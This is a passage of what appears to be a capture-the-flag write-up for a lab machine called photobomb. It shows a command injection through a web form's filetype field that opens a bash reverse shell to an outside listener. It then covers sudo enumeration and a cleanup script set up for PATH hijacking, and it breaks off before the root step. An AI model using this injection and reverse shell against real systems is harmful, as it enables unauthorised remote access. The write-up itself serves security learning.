 

## SHELL AS WIZARD

On replacing `sleep 5` with our reverse shell we got shell as `wizard` user.
```bash
photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=png%3bbash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/4444+0>%261'&dimensions=150x100
```

```bash
$sudo nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.182] 55200
bash: cannot set terminal process group (734): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
```

## SHELL AS ROOT
On running `sudo -l`, the output shows that the user `wizard` can run `/opt/cleanup.sh` with `sudo` permissions and withoud password.
```bash
wizard@photobomb:~$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

### Path hijacking
### /opt/cleanup.sh

We cannot edit the contents of `/opt/cleanup.sh` but we can read it.
```bash
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
